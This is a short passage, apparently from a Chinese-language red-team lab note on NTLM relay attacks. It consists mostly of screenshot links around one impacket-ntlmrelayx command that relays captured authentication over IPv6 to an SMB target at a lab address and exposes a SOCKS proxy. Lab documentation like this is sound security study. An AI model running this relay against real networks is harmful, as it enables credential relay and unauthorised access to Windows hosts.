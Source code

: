 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/14.png)

```
impacket-ntlmrelayx -6 -wh test.local -t smb://192.168.141.129 -l ~/tmp/ -socks -debug
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/15.png)

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/16.png)
